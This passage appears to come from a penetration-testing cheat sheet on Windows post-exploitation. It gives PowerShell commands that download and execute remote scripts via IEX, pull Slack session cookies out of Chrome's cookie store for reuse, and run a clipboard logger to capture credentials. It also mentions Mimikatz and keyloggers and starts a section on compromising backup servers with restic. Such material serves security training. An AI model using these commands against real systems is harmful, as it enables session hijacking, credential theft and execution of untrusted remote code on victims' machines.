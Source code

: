 Make sure you save the cookie by clicking the `save` icon.

#### Cookie Extraction from Chromium-based Browsers

#### PowerShell Script - Invoke-SharpChromium
```PowerShell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
```

```PowerShell
Invoke-SharpChromium -Command "cookies slack.com"
```
We can modify the code of `SharpChromium` or copy the cookie file to where `SharpChromium` is looking.

#### Copy Cookies to SharpChromium Expected Location
```PowerShell
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

#### Invoke-SharpChromium Cookies Extraction
```PowerShell
Invoke-SharpChromium -Command "cookies slack.com"
```
We can now use this cookie with cookie-editor as we did with Firefox.

*Note: When copy/pasting the contents of a cookie, make sure the value is one line.*

### Clipboard

#### Monitor the Clipboard with PowerShell
```PowerShell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
```

```PowerShell
Invoke-ClipboardLogger
```
The script will start to monitor for entries in the clipboard and present them in the PowerShell session. We need to be patient and wait until we capture sensitive information.

*Note: User credentials can be obtained with tools such as Mimikatz or a keylogger. C2 Frameworks such as Metasploit contain built-in functions for keylogging.*

### Roles and Services

#### Attacking Backup Servers
If we compromise a server or host with a backup system, we can compromise the network.

#### restic - Initialize Backup Directory
```PowerShell
mkdir E:\restic2; restic.exe -r E:\restic2 init
```

